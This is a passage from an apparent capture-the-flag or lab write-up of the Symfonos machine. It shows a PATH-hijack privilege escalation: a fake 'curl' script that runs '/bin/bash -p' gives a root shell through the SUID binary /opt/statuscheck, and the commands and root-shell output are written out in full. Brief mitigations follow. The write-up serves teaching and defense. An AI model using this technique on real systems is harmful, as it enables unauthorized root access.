 Here we can see `curl` is called with relative path. So we could hijack the path to get the shell as root user.

```jsx
helios@symfonos:/tmp$ cat curl
/bin/bash -p
helios@symfonos:/tmp$ PATH=$(pwd):$PATH
helios@symfonos:/tmp$ /opt/statuscheck
**bash-4.4# id
uid=1000(helios) gid=1000(helios) euid=0(root) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)**
bash-4.4# ls -la /root/
total 24
drwx------  2 root root 4096 Jun 28  2019 .
drwxr-xr-x 22 root root 4096 Jun 28  2019 ..
lrwxrwxrwx  1 root root    9 Jun 28  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Jun 28  2019 .selected_editor
**-rw-r--r--  1 root root 1735 Jun 28  2019 proof.txt**
```

## Mitigations

Make sure that the internal files are shared with better proper controls.

Make sure that the absolute path of dependent binaries is used in the binaries used.

